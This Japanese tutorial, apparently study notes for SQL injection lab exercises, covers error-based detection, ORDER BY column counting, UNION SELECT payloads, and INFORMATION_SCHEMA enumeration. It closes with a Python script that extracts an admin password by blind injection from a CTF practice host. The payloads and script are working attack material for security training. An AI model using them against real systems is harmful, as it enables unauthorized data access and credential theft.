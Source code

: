 # SQLインジェクション

## インジェクションの可否の判定

例えば、sql1-1の場合、`'`と入力した場合に、以下のように`'''`という構文エラーが発生します。

```
SELECT id, username, password FROM users WHERE username='''
```

このように、様々な入力を与え、それに対する挙動からインジェクションが可能かどうかを判断できます。

### sqli1-2
`'`で検索しても、エラーが表示されません。
そこで、Chromeで`右クリック->検証`から開発者ツール(デベロッパーツール)を開きます。
`Network`タブへ移動し、ページを更新すると、HTTPのレスポンスがみれます。

`Headers`タブのステータスコードを見ると
`500 Internal Server Error`となっています。

これだけでは、SQLのシンタックスエラーかどうかはわからないので、今度は
`''`で検索してみます。

今度は`200 OK`になりました。  
これで、SQLインジェクションが可能である可能性がかなり高いことがわかります。

### エラーハンドリングがされている場合

php内部で、try-catch構文を用いてerrorが発生してもプログラムが止まらないようにされている場合、
ステータスコードは常に`200 OK`となります。

このような場合でも、SQLインジェクションの可否を判定できます。（チャレンジブックp221~参照）

## 攻撃手法 ~UNION句~

UNION句で繋げるためには条件が二つあります。


- 繋げるデータの型が同じ
- 繋げるデータのカラム数が同じ

データの型とは、INT型とかVARCHAR型とかです。
つまり、user_name(VARCHAR)とuser_id(INT)を繋げることはできません。

また、user_nameとpost_titleの二つに対し、3つ以上のカラムを連結することはできません。
そのため、元々のSELECT文がいくつのカラムを取得しているかを推定する必要があります。

推定する手法の一つに、`ORDER BY`句を用いる手法があります。
`ORDER BY 3`のように `BY`の後ろにカラム名ではなく整数nを与えると、n番目のカラムで並び替えをしてくれます。  
よって、nの値を色々試すことで、カラム数を特定できます。

### sqli2-1

まず、`'`と入力してみましょう。
エラー文から、SQLインジェクションができそうだとわかります。

次に、`'order by 1 -- `と入力してみましょう。

エラー文が消えたことから、SQLインジェクションができることがほぼ確定しました。

```
'order by 10 -- 
```

```
'order by 5 --
```

といった入力では、エラーになります。このため、カラム数は4以下であることがわかりました。

```
'oreder by 3 -- 
```
ではエラーが消えるため、カラム数は3か4です。


```
'order by 4 -- 
```

最後に4で試すと、エラーが出るため、今回の例ではカラム数が3であることが分かりました。

1,2,3という数値を連結してみましょう。

```
' union select 1,2,3 -- 
```

## 括弧の有無

いつもサーバ側で下のようなSELECT文になっているとは限りません。

```
SELECT id, username, password FROM users WHERE username='{$search}'
```

例えば、以下のようにwhere句が括弧で囲まれていたりします。

```
SELECT id, username, password FROM users WHERE (username='{$search}')
```

このような場合も、括弧を閉じてあげればSQLインジェクションが可能です。

### sqli2-2

まず、`'`と入力してみましょう。
エラーが出るので、SQLインジェクションできそうです。

次に、`or 1=1 -- `と入力してみましょう。  
これまでと同じであれば、全てのユーザの情報が取得できるはずです。

しかし、エラーが出てしまいます。
この場合、SELECT文の書き方が想定と異なると仮説をたて、括弧の存在を疑います。

```
') or 1 = 1 -- 
```

これで、成功できました。
先ほどのようにUNION句で1,2,3を繋げてみましょう。

```
') union select 1,2,3 -- 
```


## 攻撃対象の探し方

UNION句で欲しい情報を取得できるようになったので、
欲しい情報がどんなテーブルの、どんなカラムにあるかを調べる必要があります。

これは、それが載っているデータベースがあるので、そこを参照すれば良いです。

例えば、mysqlでは`INFORMATION_SCHEMA`というデータベースの
`TABLES`というテーブルにテーブル情報が、`COLUMUNS`というテーブルにカラムの情報が載っています。

postgresqlでも同様のデータベースがあり、sqliteでは`SQLITE_MASTER`というテーブルの`sql`というカラム名で取得できます。

### sqli3-1

UNION句が成功するというところまで判別済みとします。

```
' union select 1,2,3 -- 
```

ここで、まずはデータベースに`INFORMATION_SCHEMA`というデータベースに`TABLES`や`COLUMNS`があるかどうかを調べます。

```
' union select 1,2,3 from INFORMATION_SCHEMA.TABLES -- 
```

```
' union select 1,2,3 from INFORMATION_SCHEMA.COLUMNS -- 
```

同じ結果が得られるので、存在が確認できました。
もし存在しなければ、 そんなテーブル無いぞ、とエラーが出るはずです。

ここまでくれば勝ったようなもので、`INFORMATION_SCHEMA.COLUMNS`に対して、`table_name`と`column_name`を取ってくれば良いだけです。

```
' union select table_name, column_name, 3 from INFORMATION_SCHEMA.COLUMNS -- 
```



## ブラインドSQL

```
admin' AND substr((SELECT pass FROM user WHERE id='admin'),1,1) = 'F'; --
```

```python
import requests

def httpRequest(id, pw):
    url = 'http://ctfq.sweetduet.info:10080/~q6/'
    req = {'id':id, 'pass': pw}
    res = requests.post(url,data=req)
    return res.text

def atkpw(plen):

	flag = ''

	for p in range(0, plen):
		for i in range(48, 123):
			char = chr(i)
			id = "admin' AND substr((SELECT pass FROM user WHERE id='admin'), " + str(p + 1) + ", 1) = " + "'" + char + "'" + " ; --"
			pw = "''"

			data = httpRequest(id, pw)

			if len(data) > 2000:
				print(str(i) + ": " + char)
				flag = flag + char
				print(flag)
				break

	return flag
if __name__ == '__main__':
    plen = 21
    print(atkpw(plen))

```

